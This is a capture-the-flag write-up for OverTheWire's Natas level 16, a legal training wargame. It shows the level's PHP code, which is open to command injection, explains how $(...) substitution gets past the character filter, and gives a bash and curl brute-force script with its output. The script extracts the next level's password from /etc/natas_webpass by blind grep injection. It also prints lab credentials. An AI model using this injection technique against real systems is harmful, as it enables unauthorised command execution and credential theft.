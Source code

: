# NATAS LEVEL 16

```
http://overthewire.org/wargames/natas/natas16.html
```

```
Username: natas16
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
URL:      http://natas16.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

#### CODE INSPECTION

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Okay, so we are revisiting the `grep $pattern dictionary.txt` scenario except
this time it seems like they are filtering out several additional characters
such as ```, `'`, and `"` in addition to surrounding the query pattern `$key`
with quotes..

```
grep -i "$key" dictionary.txt
```

What command injection can we come up with that would allow us to view the
contents of `/etc/natas_webpass/natas17`?

#### COMMAND INJECTION

One clue is the filter screens for the character ```, which allows us to
perform "command substituion".

```
http://www.gnu.org/software/bash/manual/bashref.html#Command-Substitution
```

Lucky for us, the alternate syntax of command substitution is `$(command)`
which is not filtered out.  This allows us to run our own arbitrary commands
within the `grep` pattern search. The challenge here is that whatever command
we inject, its output will be used as the `grep` pattern for `dictionary.txt`
and not outputed to us.

What we can do is infer what the password is if we search for a known word
like "zebras". If we submit that as the search string, it would return the
string "zebras" since that word would be in `dictionary.txt`.  However, if we
submitted a "grep of /etc/natas_webpass/natas17" + "zebras" as the search
string, if our grep of the password file failed.. then our search string would
remain "zebras" and would still succeed.  But if our grep of the password file
succeeded, then the search string would be "grep_string"+"zebras" which would
fail (since presumably that should not exist in `dictionary.txt`). Therefore
we can infer that if our query fails, then we have successfully guess a letter
of the password.

#### BRUTE FORCE

```
$ cat script.sh
#! /bin/bash

rawurlencode() {
  local string="${1}"
  local strlen=${#string}
  local encoded=""
  local pos c o

  for (( pos=0 ; pos<strlen ; pos++ )); do
     c=${string:$pos:1}
     case "$c" in
        [-_.~a-zA-Z0-9] ) o="${c}" ;;
        * )               printf -v o '%%%02x' "'$c"
     esac
     encoded+="${o}"
  done
  echo "${encoded}"    # You can either set a return variable (FASTER)
  REPLY="${encoded}"   #+or echo the result (EASIER)... or both... :p
}

export PASSWORD

# we assume the password length is 32
for i in {0..31}
do

  # loop through all valid possible characters
  for CH in {{0..9},{a..z},{A..Z}}
  do
    PASSWORD[$i]=$CH
    TESTSTRING=$(printf "%s" "${PASSWORD[@]}")

    GREP_BEG="$( rawurlencode '$(grep -E ^' )"
    GREP_END="$( rawurlencode '.* /etc/natas_webpass/natas17)' )"

    # the last echo'ed $TESTSTRING would represent the working usr/passwd combo
    echo "PASSWORD: $TESTSTRING"

    curl --silent \
      "http://natas16.natas.labs.overthewire.org/?needle=${GREP_BEG}${TESTSTRING}${GREP_END}zebras&submit=Search" \
      -H 'Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==' \
      | grep "zebras" >/dev/null

    if [ $? -ne 0 ]; then
      # if the string "zebras" does NOT exist, that means our passwd file grep
      # returned some output which would have tainted our zebra pattern causing
      # the new pattern not to be found in "dictionary.txt" and we can move onto
      #  the next character
      break;
    fi
  done

done
```

```
$ ./script.sh
PASSWORD: 0
PASSWORD: 1
PASSWORD: 2
PASSWORD: 3
PASSWORD: 4
PASSWORD: 5
PASSWORD: 6
PASSWORD: 7
PASSWORD: 8
PASSWORD: 80
PASSWORD: 81

<...>

PASSWORD: 8Ps3G
PASSWORD: 8Ps3H
PASSWORD: 8Ps3H0
PASSWORD: 8Ps3H00
PASSWORD: 8Ps3H01
PASSWORD: 8Ps3H02
PASSWORD: 8Ps3H03

<...>

PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9ct
PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cu
PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cv
PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

